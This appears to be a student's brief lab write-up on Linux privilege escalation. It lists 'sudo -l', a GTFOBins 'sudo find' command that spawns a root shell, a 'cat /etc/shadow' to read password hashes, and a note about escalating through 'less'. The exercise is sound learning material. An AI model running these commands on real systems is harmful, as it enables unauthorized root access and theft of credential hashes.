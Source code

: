 # LINUX PrivEX

Task 6

```
>> sudo -l 

```
found the find  command and went to gtfobins for a sudo priv esc command

```
>> sudo find . -exec /bin/sh \; -quit

```

the root


to read the password hash , i checked the /etc/shadow file 

```
>>  cat /etc/shadow

```
## Pset

	Excalate with less command Sudo
